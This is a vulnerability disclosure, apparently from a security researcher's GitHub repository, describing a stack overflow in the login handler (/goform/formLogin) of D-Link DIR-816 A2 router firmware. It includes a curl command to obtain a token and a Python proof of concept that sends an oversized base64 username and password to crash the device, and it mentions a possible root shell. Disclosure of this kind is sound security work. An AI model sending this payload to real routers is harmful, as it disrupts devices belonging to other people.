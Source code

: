 # D-link DIR-816 A2_v1.10CNB04.img Stack overflow vulnerability

## Firmware information

- Manufacturer's address：https://www.dlink.com/

- Firmware download address ： http://tsd.dlink.com.tw/GPL.asp

## Affected version

![](https://github.com/z1r00/IOT_Vul/blob/main/dlink/dir816/img/vuln2.png)

The picture above shows the latest firmware for this version

## Vulnerability details

![](https://github.com/z1r00/IOT_Vul/blob/main/dlink/Dir816/formLogin/img/v1.png)

The vulnerability occurs in /goform/formLogin. After the username and password are decrypted by base64, they will be stored in the stack of the program without checking the size, resulting in a stack overflow vulnerability.

## Poc

The first thing you need to do is to get the tokenid

```
curl http://192.168.0.1/dir_login.asp | grep tokenid
```

Then run the following poc

```python
import requests
import base64

li = lambda x : print('\x1b[01;38;5;214m' + x + '\x1b[0m')
ll = lambda x : print('\x1b[01;38;5;1m' + x + '\x1b[0m')

tokenid = '1804289383'

url = 'http://192.168.0.1/goform/formLogin'

payload = base64.b64encode(b'a' * 1000)

data = {
    'tokenid' : tokenid,
    'username' : payload,
    'password' : payload
}
response = requests.post(url, data=data)
response.encoding="utf-8"
info = response.text
li(url)
print(info)
```

After sending the poc, the router will crash, and finally we can write the exp to get the root shell

